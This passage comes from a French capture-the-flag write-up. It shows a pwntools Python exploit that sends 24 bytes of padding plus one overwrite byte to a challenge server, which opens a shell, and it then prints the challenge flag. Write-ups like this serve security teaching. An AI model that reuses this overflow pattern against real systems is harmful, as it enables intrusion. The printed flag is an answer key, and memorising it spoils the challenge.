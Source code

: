 ### Exploit

L'exploit que j'ai écrit pour résoudre cette épreuve, se basant sur l'analyse
ci-dessus, est le suivant :

```python
from pwn import *

conn = remote('34.123.210.162', 20234)

offset = b'A'*24
payload = int(0xcb).to_bytes()

conn.send(offset + payload + b'\n')

conn.interactive()
conn.close()
```

Ce programme nous ouvre un shell dans lequel nous pouvons afficher le flag.

Le flag : `poctf{uwsp_71m3_15_4_f4c702}`